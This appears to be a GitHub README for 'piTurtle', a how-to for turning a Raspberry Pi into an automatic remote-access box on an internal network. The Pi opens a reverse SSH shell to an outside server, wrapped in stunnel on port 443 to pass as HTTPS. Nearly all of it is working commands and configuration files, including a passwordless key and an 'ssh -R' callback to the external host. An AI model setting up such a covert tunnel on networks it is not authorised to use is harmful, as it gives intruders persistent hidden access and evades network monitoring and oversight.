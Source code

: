 # piTurtle
automatic open remote shell on an internal network with raspberryPI

# need
 - stunnel 
 - ssh 
 - vps or server on internet
 - raspbery
 
# subject
Create a stunnel connection (ssl 443) to the a server on internet and the open a remote shell inside the stunnel connection with SSH.

# stunnel
install stunnel4 on both rpi and server
```# sudo apt-get update
sudo apt-get install stunnel4
```

##### Configure server side (server)  

enable service  
```
sudo nano /etc/default/stunnel4
```
> ENABLE=1


Generate certificat
```
cd /etc/stunnel
openssl genrsa -out KeyServer.key 2048
openssl req -new -key KeyServer.key -out certif.csr
openssl x509 -req -days 3650 -in certif.csr -signkey KeyServer.key -out certserver.crt
cat KeyServer.key certserver.crt > server.pem
```

configure stunnel.conf
```
mv stunnel.conf stunnel.conf.bkp
nano stunnel.conf
```
>; It is recommended to drop root privileges if stunnel is started by root  
>chroot = /var/lib/stunnel4/  
>setuid = stunnel4  
>setgid = stunnel4  
>  
>; PID file is created inside the chroot jail (if enabled)  
>pid = /stunnel.pid  
>; pid = /stunnel.pid  
>  
>; Debugging stuff (may be useful for troubleshooting)  
>foreground = yes  
>debug = debug  
>output = /var/log/stunnel4/stunnel.log  
>  
>; TLS front-end to a web server  
>[https]  
>accept  = 443  
>connect = 7515  
>cert=/etc/stunnel/server.pem  
>key=/etc/stunnel/keyServer.key  

will create a HTTPS service on port 443  

view of the chroot   
>cd /var/lib/stunnel4/  
>/var/lib/stunnel4$ tree  
>.  
>├── stunnel.pid  
>└── var  
>    ├── log  
>    │   └── stunnel4  
>    │       └── stunnel.log  
>    └── run  
>  
>4 directories, 2 files  


Start stunnel on boot service  
```
chkconfig stunnel4 on  
/etc/init.d/stunnel4 start  
```

check port (normally 443 is up)
```
sudo netstat -tanlp | grep stunnel
```


##### Configure rpi side (client)  

upload server.pem on /etc/stunnel/  

```
sudo nano /etc/stunnel/stunnel.conf
```
>debug = info  
>output = /var/log/stunnel.log  
>  
>cert = /etc/stunnel/server.pem  
>pid = /var/run/stunnel.pid  
>client = yes  
>  
>[ssh]  
>accept = 127.0.0.1:2222  
>connect = <Ip or domain>:443  

Start stunnel  
```
stunnel /etc/stunnel/stunnel.conf
```

Check if stunnel is up  
```
sudo netstat -tanlp | grep stunnel  
```

now SSH is listen on 2222 and go up stunnel  


# Create reverse shell \o/

##### On the rpi
Create a user and a ssh key on RPI  
```
useradd remote  
cd /home/remote/.ssh/  
ssh-keygen -f remote -P ""  
```

2 files is created (private (remote) key stay on the RPI and remote.pub to DL on the server)

##### On the server 
```
useradd remote  
```
copy remote.pub in /home/remote/.ssh/ 


##### On the rpi
start ssh reverse shell
```
ssh -i /home/remote/.ssh/remote -R 2201:localhost:22 -p 2222 remote@localhost -f -N
```

and normally on the server a port is open localhost:2201 and you can ssh to it  

>netstat -tanlp | grep 2201  
>tcp        0      0 127.0.0.1:2201          0.0.0.0:*               LISTEN      >24227/sshd: remote  





